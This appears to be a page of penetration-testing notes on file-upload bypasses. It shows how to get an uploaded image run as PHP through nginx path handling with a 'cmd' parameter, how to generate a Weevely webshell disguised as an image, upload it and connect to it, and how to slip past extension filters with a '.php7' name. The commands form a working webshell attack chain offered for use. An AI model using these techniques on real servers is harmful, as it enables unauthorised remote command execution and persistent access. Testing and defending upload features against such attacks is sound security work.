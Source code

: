 

## Execute a file uploaded as an image in nginx

After bypassing a file upload feature (using .jpg extension but php mimetype), the file is treated by the application as an image.

![file](../img/fileupload_00.png)


How to bypass that situation? This works in some versions of nginx server:

```
# After the name of the file with the jpg extension, add slash and the name of the file with the uploaded and accepted mimetype php. After that you can use the CMD command of the webshell.

https://example.com/uploads/lolo.jpg/lolo.php?cmd=pwd
```

![file](../img/fileupload_01.png)

## Tools

Generate a php webshell with [Weevely](../weevely.md) and saving it an image:

```
weevely generate secretpassword example.png 
```


Upload it to the application.

![weevely](../img/weevely_00.png)


Make the connection with weevely:

```
weevely https://example.com/uploads/example.jpg/example.php secretpassword
```

![weevely](../img/weevely_01.png)


##  Bypass PHP version-based file extension filters when running the file

Sometimes a web server may prevent some php files from running based on their php version. A way of bypassing this situation is indicating in the extension of the file, the version you want to upload. 

```
shell.php7
```

In this case, the uploaded file could be executed in php v7. 

